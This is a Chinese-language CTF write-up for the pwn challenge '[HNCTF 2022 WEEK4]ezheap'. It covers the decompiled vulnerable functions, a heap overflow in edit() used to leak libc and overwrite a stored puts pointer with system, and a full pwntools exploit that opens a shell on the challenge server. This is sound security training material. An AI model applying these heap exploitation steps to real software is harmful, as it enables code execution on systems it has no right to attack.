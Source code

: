 ```yaml
---
title: '[HNCTF 2022 WEEK4]ezheap'
date: 2024-04-28 13:00:00 +0800
categories: [uaf,off_by_one,heapoverflow,leak_libc]
tags: [ctf,pwn]
---
```

 [[HNCTF 2022 WEEK4](https://www.nssctf.cn/problem/3104)]ezheap

```shell
[*] '/home/bamuwe/ezheap/ezheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $checksec ./ezheap

```shell
Easy Note.
1.Add.
2.Delete.
3.Show.
4.Edit.
Choice:
```

> 运行截图

```c
int add()
{
  __int64 v0; // rbx
  __int64 v1; // rax
  int v3; // [rsp+0h] [rbp-20h]
  signed int v4; // [rsp+4h] [rbp-1Ch]

  puts("Input your idx:");
  v3 = getnum();
  puts("Size:");
  v4 = getnum();
  if ( v4 > 0x100 )
  {
    LODWORD(v1) = puts("Invalid!");
  }
  else
  {
    heaplist[v3] = malloc(0x20uLL);
    if ( !heaplist[v3] )
    {
      puts("Malloc Error!");
      exit(1);
    }
    v0 = heaplist[v3];
    *(v0 + 16) = malloc(v4);
    *(heaplist[v3] + 32LL) = &puts;             // 预存的puts()地址，考虑泄露/更改
    if ( !*(heaplist[v3] + 16LL) )
    {
      puts("Malloc Error!");
      exit(1);
    }
    sizelist[v3] = v4;
    puts("Name: ");
    if ( !read(0, heaplist[v3], 0x10uLL) )	//限制name堆块只能输入0x10
    {
      puts("Something error!");
      exit(1);
    }
    puts("Content:");
    if ( !read(0, *(heaplist[v3] + 16LL), sizelist[v3]) )
    {
      puts("Error!");
      exit(1);
    }
    puts("Done!");
    v1 = heaplist[v3];
    *(v1 + 24) = 1;
  }
  return v1;
}
```

> 漏洞函数1_add()

```c
__int64 show()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  if ( v1 <= 0xF && heaplist[v1] )
  {
    (*(heaplist[v1] + 32LL))(heaplist[v1]);		//通过调用堆上预存的puts()地址实现输出打印
    return (*(heaplist[v1] + 32LL))(*(heaplist[v1] + 16LL));
  }
  else
  {
    puts("Error idx!");
    return 0LL;
  }
}
```

> 漏洞函数2_show()

```c
ssize_t edit()
{
  unsigned int v1; // [rsp+8h] [rbp-8h]
  unsigned int nbytes; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  puts("Size:");
  nbytes = getnum();
  if ( v1 <= 0x10 && heaplist[v1] && nbytes <= 0x100 )	// 只做了<=0x100的限制，可以溢出
    return read(0, *(heaplist[v1] + 16LL), nbytes);
  puts("Error idx!");
  return 0LL;
}
```

> 漏洞函数3_edit()

```python
def add(idx,size,name,text):
    io.sendlineafter(b'Choice: \n',b'1')    
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendlineafter(b'Name: \n',str(name))
    io.sendafter(b'Content:\n',text)
    
def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')    
    io.sendlineafter(b'idx:\n',str(idx))
    
def edit(idx,size,text):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.send(text)
```

> 交互函数

程序逻辑：

1. `add()`时会添加两个`chunk`，`chunk1`存贮`name`，正文`chunk`和`puts()`的地址，即`0x0a27656d616e2762(name)`，`0x0000561b7af6c040`，`0x00007f483b7215d0(puts_addr)`另`chunk2`存贮`text`

   ![image-20240428142620769](../assets/img/old_imgs/image-20240428142620769.png)

2. `show()`会调用`chunk1`中预存的`puts()`构造`puts(chunk2_addr)`实现打印输出

   ![image-20240428143340351](../assets/img/old_imgs/mage-20240428143340351.png)

利用思路：

1. `edit()`宽松的输入检测，可以更改堆块大小，构造`fake_chunk`

   ```python
   add(0,0x18,b'0'*0x10,b'0000')
   add(1,0x10,'1111',b'1111')
   add(2,0x10,'2222',b'2222')
   
   edit(0,0x20,b'A'*0x18+p8(0x81))
   show(0)
   free(1)
   ```

   ![image-20240428144611332](../assets/img/old_imgs/image-20240428144611332.png)

   > 成功构造出fake_chunk

2. 可以构造堆溢出，溢出`\x00`截断，填充并泄露`puts()`的地址

   ```python
   add(4,0x70,'4444',b'4'*(0x20-1)+b'-')			#申请回fake_chunk，填充堆空间，添加标志位
   show(4)											#查看堆上内容
   io.recvuntil(b'-')
   puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
   # lib = LibcSearcher('puts',puts_addr)			#remote
   lib_base = puts_addr-lib.sym['puts']
   sys_addr = lib_base+lib.sym['system']
   # lib_base = puts_addr-lib.dump('puts')
   # sys_addr = lib_base+lib.dump('system')
   success('&system=>{}'.format(hex(sys_addr)))
   success('&puts=>{}'.format(hex(puts_addr)))
   ```

   ![image-20240428151019745](../assets/img/old_imgs/image-20240428151019745.png)

3. 通过`edit()`修改，利用堆溢出修改其他`chunk`

   ```python
   edit(4,0x100,b'a'*0x40+p64(0)+p64(0x31)+b'/bin/sh\x00'+p64(0)*2+p64(0x1)+p64(sys_addr))
   ```

   ![image-20240428151224698](../assets/img/old_imgs/image-20240428151224698.png)

   > 修改后，可以与上面比较一下

4.利用`show()`得到`shell`

```python
show(2)
```

___

exp:

```python
#Ubuntu GLIBC 2.23-0ubuntu11.3

from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
elf = ELF('./ezheap')
# io = gdb.debug('./ezheap')
io = remote('node5.anna.nssctf.cn',26829)
# lib = ELF('/home/bamuwe/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')
def add(idx,size,name,text):
    io.sendlineafter(b'Choice: \n',b'1')    
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendlineafter(b'Name: \n',str(name))
    io.sendafter(b'Content:\n',text)
    
def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')    
    io.sendlineafter(b'idx:\n',str(idx))
    
def edit(idx,size,text):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.send(text)

add(0,0x18,b'0'*0x10,b'0000')
add(1,0x10,'1111',b'1111')
add(2,0x10,'2222',b'2222')

edit(0,0x20,b'A'*0x18+p8(0x81))
show(0)
free(1)
add(4,0x70,'4444',b'4'*(0x20-1)+b'-')
show(4)
io.recvuntil(b'-')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
lib = LibcSearcher('puts',puts_addr)
lib_base = puts_addr-lib.dump('puts')
sys_addr = lib_base+lib.dump('system')
success('&system=>{}'.format(hex(sys_addr)))
success('&puts=>{}'.format(hex(puts_addr)))

edit(4,0x100,b'a'*0x40+p64(0)+p64(0x31)+b'/bin/sh\x00'+p64(0)*2+p64(0x1)+p64(sys_addr))
show(2)

io.interactive()
```



